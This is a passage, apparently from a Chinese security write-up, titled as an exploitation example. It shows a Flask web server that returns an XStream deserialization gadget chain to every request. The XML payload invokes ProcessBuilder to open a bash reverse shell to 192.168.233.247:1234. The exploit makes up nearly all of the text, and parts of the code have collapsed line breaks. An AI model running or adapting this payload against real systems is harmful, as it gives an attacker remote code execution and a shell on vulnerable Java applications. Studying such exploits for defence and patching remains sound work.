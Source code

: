 

##### 利用实例

使用python 在服务器上搭建一个响应XStream payload的Web服务，代码如下：

```python
#!/usr/bin/env python# coding: utf-8
from flask import Flask, Response
app = Flask(__name__)
@app.route('/', defaults={'path':''})@app.route('/<path:path>',methods=['GET','POST'])

def catch_all(path):    
xml = """<linked-hash-set>  <jdk.nashorn.internal.objects.NativeString>    
<value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">      <dataHandler>        
<dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">          
<is class="javax.crypto.CipherInputStream">            
<cipher class="javax.crypto.NullCipher">              <serviceIterator class="javax.imageio.spi.FilterIterator">                <iter class="javax.imageio.spi.FilterIterator">                  <iter class="java.util.Collections$EmptyIterator"/>                  <next class="java.lang.ProcessBuilder">                    
<command>                       
<string>/bin/bash</string>                       
<string>-c</string>                      
<string>bash -i >&amp; /dev/tcp/192.168.233.247/1234 0>&amp;1</string>                    
</command>                    <redirectErrorStream>false</redirectErrorStream>                  </next>                
</iter>                
<filter class="javax.imageio.ImageIO$ContainsFilter">                  <method>                    
<class>java.lang.ProcessBuilder</class>                    <name>start</name>                    
<parameter-types/>                 
 </method>                  
<name>foo</name>                
</filter>                
<next class="string">foo</next>             
 </serviceIterator>              
<lock/>            
</cipher>            
<input class="java.lang.ProcessBuilder$NullInputStream"/>            <ibuffer></ibuffer>          
</is>        
</dataSource>
</dataHandler>
</value>
</jdk.nashorn.internal.objects.NativeString></linked-hash-set>"""    return Response(xml, mimetype='application/xml')

if __name__ == "__main__":    app.run(host='0.0.0.0', port=80)

```

Python3启动web,如下:
